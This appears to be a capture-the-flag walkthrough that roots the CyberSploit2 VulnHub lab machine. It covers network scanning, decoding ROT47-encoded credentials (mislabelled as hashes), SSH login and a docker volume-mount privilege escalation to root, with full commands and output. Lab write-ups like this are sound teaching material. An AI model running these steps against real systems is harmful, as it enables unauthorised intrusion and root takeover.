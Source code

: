 ```yaml
---
title: CyberSploit 2 Vulnhub Walkthrough
date: 2024-04-15
categories: [Walkthrough]
tags: [Walkthrough, CTF, VulnHub]
---
```


## CyberSploit 2

This walkthrough guides you through the process of gaining root access on the CyberSploit2 boot2root virtual machine (VM) from Vulnhub. CyberSploit2 is the second part of the CyberSploit Series.

## Download the VM

- **Download the CyberSploit2 VM (size: 1.2 GB)** 
  - [Download Now](https://download.vulnhub.com/cybersploit/CyberSploit2.ova)

## Walkthrough

### 1. Discover Target Machine IP Address

Once the VM is running, determine its IP address using the 'arp-scan' utility:

```bash
┌──(root㉿neo)-[~]
└─# arp-scan -l
Interface: wlan0, type: EN10MB, MAC: 50:c2:e8:43:93:3b, IPv4: 192.168.1.8
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.4	08:00:27:ee:18:51	PCS Systemtechnik GmbH

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.003 seconds (127.81 hosts/sec). 1 responded
```

### 2. Scan for Open Ports

Use Nmap to scan for open ports on the target machine (replace `<target_IP>` with the VM's IP address obtained in the previous step):

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 192.168.1.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 08:47 IST
Nmap scan report for 192.168.1.4
Host is up (0.00053s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CyberSploit2
|_http-server-header: Apache/2.4.37 (centos)
MAC Address: 08:00:27:EE:18:51 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.53 ms 192.168.1.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```

### 3. Enumerate HTTP Service

Explore the identified HTTP service (e.g., browse to `http://<target_IP>` in a web browser).

![Screenshot_from_2024-04-15_08-49-41](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/655ba6b0-cc80-4aa0-b954-af52a31cda0f)

Here You Can See In The Image on Line 4 `D92:=6?5C2` & `4J36CDA=@:E` Hashes 

![Screenshot_from_2024-04-15_08-49-50](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/69ec26be-98dd-4b62-9472-25bd5ddea149)

The webpage source code 126 line  `<!----------ROT47---------->`  giving a hinit for line 4 is `rot47` format hash.

#### Let's Crack The Hash Using ROT47

```bash
┌──(root㉿neo)-[~]
└─# echo "D92:=6?5C2" | tr '!-~' 'P-~!-O'

shailendra
```

### Cracking the Second Hash

```bash
┌──(root㉿neo)-[~]
└─# cat hash.txt | tr '!-~' 'P-~!-O'       

cybersploit1
```

The hashes are cracked:
- Username: `shailendra`
- Password: `cybersploit1`

#### 4. Login to SSH

Attempt to login to SSH using the discovered credentials:

```bash
┌──(root㉿neo)-[~]
└─# ssh shailendra@192.168.1.4
shailendra@192.168.1.4's password: 
Last login: Mon Apr 15 08:34:27 2024 from 192.168.1.8
[shailendra@localhost ~]$ 
```

#### 5. Obtain User Flag

Explore the user account for further clues and locate the user flag.

```bash
[shailendra@localhost ~]$ ls
hint.txt
[shailendra@localhost ~]$ cat hint.txt
docker
[shailendra@localhost ~]$ 
```

#### 6. Escalate Privileges via Docker

Search for Docker-related vulnerabilities using [GTFOBins](https://gtfobins.github.io/gtfobins/docker/).

![Screenshot_from_2024-04-15_09-00-16](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/5cd3822f-3ae5-4ff1-bb5b-c614b26729e8)

Execute Docker commands to escalate privileges to root:

```bash
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
4abcf2066143: Pull complete 
Digest: sha256:c5b1261d6d3e43071626931fc004f70149baeba2c8ec672bd4f27761f8e1ad6b
Status: Downloaded newer image for alpine:latest
sh-4.4# 
```

#### 7. Find the Root Flag

Navigate to the `/root` directory and locate the root flag:

```bash
sh-4.4# ls /root
anaconda-ks.cfg  flag.txt  get-docker.sh  logs
sh-4.4# cat /root/flag.txt
__    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/

 |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
sh-4.4# 
```

## Conclusion

Congratulations! You have successfully rooted the CyberSploit2 VM from Vulnhub.
